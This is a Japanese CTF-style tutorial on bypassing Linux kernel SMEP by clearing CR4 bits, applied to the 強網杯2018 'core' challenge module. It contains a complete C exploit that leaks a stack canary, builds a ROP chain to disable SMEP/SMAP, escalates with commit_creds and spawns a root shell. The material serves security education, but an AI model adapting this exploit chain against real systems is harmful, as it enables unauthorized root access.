


# bypass-smep (古い情報)

## SMEP 

`ret2usr` 攻撃を防ぐため、CPU の開発者は `smep` 保護(`Supervisor Mode Execution Protection`)を提案しました。これは、CPU が `ring0` モードにあるときに `ユーザ空間のコード` を実行しようとするとページフォルトを発生させる、というものです。

> ARM アーキテクチャにも `PXN` と呼ばれる同様の保護があります。

QEMU で起動した Linux VM では、起動オプションの CPU 引数を確認することで、SMEP 保護が有効かどうかを判断できます。

```shell
$ cat run.sh | grep -i smep
    -cpu kvm64,+smep,+smap \
```

`/proc/cpuinfo` ファイルを確認して判断することもできます。

```shell
~ $ cat /proc/cpuinfo | grep -i smep
flags           : fpu de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse......
```

### smep と CR4 レジスタ

制御レジスタ群の `CR4` レジスタは、CPU のさまざまな機能を制御します。CPU は CR4 レジスタの値に基づいて、smep 保護を有効にするかどうかを判断します。CR4 レジスタのビット 20 が 1 のとき保護が有効、0 のとき保護が無効です。



たとえば `$CR4 = 0x1407f0 = 000 1 0100 0000 0111 1111 0000` のとき、smep 保護は有効です。CR4 レジスタは mov 命令で変更できるため、次のアセンブリ命令を実行するだけで済みます。

```asm
mov cr4, 0x1407e0
# 0x1407e0 = 101 0 0000 0011 1111 00000
```
これで smep 保護を無効にできます。

GDB でカーネルをデバッグするときは、`info register cr4` コマンドで、現在の CPU の CR4 レジスタの値と、有効になっているフラグを確認できます。

```shell
(gdb) info registers cr4
cr4            0x3006f0            [ SMAP SMEP OSXMMEXCPT OSFXSR PGE MCE PAE PSE ]
```

## 例題：強網杯2018 - core

今回は、起動スクリプトに smep と smap のオプションを追加します。

```sh
qemu-system-x86_64 \
-m 128M \
-cpu qemu64-v1,+smep,+smap \
-kernel ./bzImage \
-initrd  ./rootfs.cpio \
-append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet kaslr" \
-s  \
-netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
-nographic  \
```

その後、先ほどの ret2usr の exp を再び実行すると、直接 kernel panic が発生しました。これは、ユーザ空間の関数ポインタを実行しようとして、SMEP 保護が作動したためです。



そこで、ROP で SMEP と SMAP を無効にすれば、ret2usr を続けられます。ここでは、筆者は論理積(AND)演算で SMEP と SMAP に対応する 2 つのビットをクリアしましたが、実際には cr4 に直接 `0x6f0` を代入しても構いません(通常、無効にした後はこの値になります)。

最終的な exp は次のとおりです。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/ioctl.h>

/**
 * Kernel Pwn Infrastructures
**/

#define SUCCESS_MSG(msg)    "\033[32m\033[1m" msg "\033[0m"
#define INFO_MSG(msg)       "\033[34m\033[1m" msg "\033[0m"
#define ERROR_MSG(msg)      "\033[31m\033[1m" msg "\033[0m"

#define log_success(msg)    puts(SUCCESS_MSG(msg))
#define log_info(msg)       puts(INFO_MSG(msg))
#define log_error(msg)      puts(ERROR_MSG(msg))

size_t commit_creds = 0, prepare_kernel_cred = 0;
size_t kernel_base = 0xffffffff81000000, kernel_offset;

size_t user_cs, user_ss, user_rflags, user_sp;

void save_status(void)
{
    asm volatile (
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    log_success("[*] Status has been saved.");
}

void get_root_shell(void)
{
    if(getuid()) {
        log_error("[x] Failed to get the root!");
        sleep(5);
        exit(EXIT_FAILURE);
    }

    log_success("[+] Successful to get the root.");
    log_info("[*] Execve root shell now...");

    system("/bin/sh");
    
    /* to exit the process normally, instead of potential segmentation fault */
    exit(EXIT_SUCCESS);
}

void* (*prepare_kernel_cred_kfunc)(void *task_struct);
int (*commit_creds_kfunc)(void *cred);

void ret2usr_attack(void)
{
    prepare_kernel_cred_kfunc = (void*(*)(void*)) prepare_kernel_cred;
    commit_creds_kfunc = (int (*)(void*)) commit_creds;

    (*commit_creds_kfunc)((*prepare_kernel_cred_kfunc)(NULL));

    asm volatile(
        "mov rax, user_ss;"
        "push rax;"
        "mov rax, user_sp;"
        "sub rax, 8;"   /* stack balance */
        "push rax;"
        "mov rax, user_rflags;"
        "push rax;"
        "mov rax, user_cs;"
        "push rax;"
        "lea rax, get_root_shell;"
        "push rax;"
        "swapgs;"
        "iretq;"
    );
}

/**
 * Challenge Interface
**/

void core_read(int fd, char *buf)
{
    ioctl(fd, 0x6677889B, buf);
}

void set_off_val(int fd, size_t off)
{
    ioctl(fd, 0x6677889C, off);
}

void core_copy(int fd, size_t nbytes)
{
    ioctl(fd, 0x6677889A, nbytes);
}

/**
 * Exploitation
**/

#define COMMIT_CREDS 0xffffffff8109c8e0
#define MOV_RAX_CR4_ADD_RSP_8_POP_RBP_RET 0xffffffff8106669c
#define POP_RDI_RET 0xffffffff81000b2f
#define AND_RAX_RDI_RET 0xffffffff8102b45b
#define MOV_CR4_RAX_PUSH_RCX_POPFQ_RET 0xffffffff81002515

void exploitation(void)
{
    FILE *ksyms_file;
    int fd;
    char buf[0x1000], type[0x10];
    size_t addr;
    size_t canary;
    size_t rop_chain[0x100], i;

    log_info("[*] Start to exploit...");
    save_status();

    fd = open("/proc/core", O_RDWR);
    if(fd < 0) {
        log_error("[x] Failed to open the /proc/core !");
        exit(EXIT_FAILURE);
    }

    /* get addresses of kernel symbols */

    log_info("[*] Reading /tmp/kallsyms...");

    ksyms_file = fopen("/tmp/kallsyms", "r");
    if(ksyms_file == NULL) {
        log_error("[x] Failed to open the sym_table file!");
        exit(EXIT_FAILURE);
    }

    while(fscanf(ksyms_file, "%lx%s%s", &addr, type, buf)) {
        if(prepare_kernel_cred && commit_creds) {
            break;
        }

        if(!commit_creds && !strcmp(buf, "commit_creds")) {
            commit_creds = addr;
            printf(
                SUCCESS_MSG("[+] Successful to get the addr of commit_cread: ")   
        	   "%lx\n", commit_creds);
            continue;
        }

        if(!strcmp(buf, "prepare_kernel_cred")) {
            prepare_kernel_cred = addr;
            printf(SUCCESS_MSG(
                "[+] Successful to get the addr of prepare_kernel_cred: ")
        	   "%lx\n", prepare_kernel_cred);
            continue;
        }
    }

    kernel_offset = commit_creds - COMMIT_CREDS;
    kernel_base += kernel_offset;
    printf(
        SUCCESS_MSG("[+] Got kernel base: ") "%lx"
        SUCCESS_MSG(" , kaslr offset: ") "%lx\n",
        kernel_base,
        kernel_offset
    );

    /* reading canary value */

    log_info("[*] Reading value of kernel stack canary...");

    set_off_val(fd, 64);
    core_read(fd, buf);
    canary = ((size_t*) buf)[0];

    printf(SUCCESS_MSG("[+] Got kernel stack canary: ") "%lx\n", canary);

    /* building ROP chain */

    rop_chain[8] = canary;
    i = 10;
    rop_chain[i++] = MOV_RAX_CR4_ADD_RSP_8_POP_RBP_RET + kernel_offset;
    rop_chain[i++] = *(size_t*) "arttnba3";
    rop_chain[i++] = *(size_t*) "arttnba3";
    rop_chain[i++] = POP_RDI_RET + kernel_offset;
    rop_chain[i++] = 0xffffffffffcfffff;
    rop_chain[i++] = AND_RAX_RDI_RET + kernel_offset;
    rop_chain[i++] = MOV_CR4_RAX_PUSH_RCX_POPFQ_RET + kernel_offset;
    rop_chain[i++] = (size_t) ret2usr_attack;

    /* exploitation */

    log_info("[*] Start ret2usr attack with smep-bypass in kernel space...");

    write(fd, rop_chain, 0x800);
    core_copy(fd, 0xffffffffffff0000 | (0x100));
}

int main(int argc, char ** argv)
{
    exploitation();
    return 0;   /* never arrive here... */
}
```

## その他

`ret2usr` の節で述べたとおり、KPTI が有効なカーネルでは、カーネルページテーブルのユーザアドレス空間部分に実行権限がありません。そのため、カーネルがユーザ空間のコードを実行しようとすると、対応するページのトップレベルのエントリに実行ビットが設定されていないため、そのまま panic します。これは、ret2usr がすでに過去のものになったことを意味し、**それに伴って、それと対になる smep bypass も過去のものになりました**。

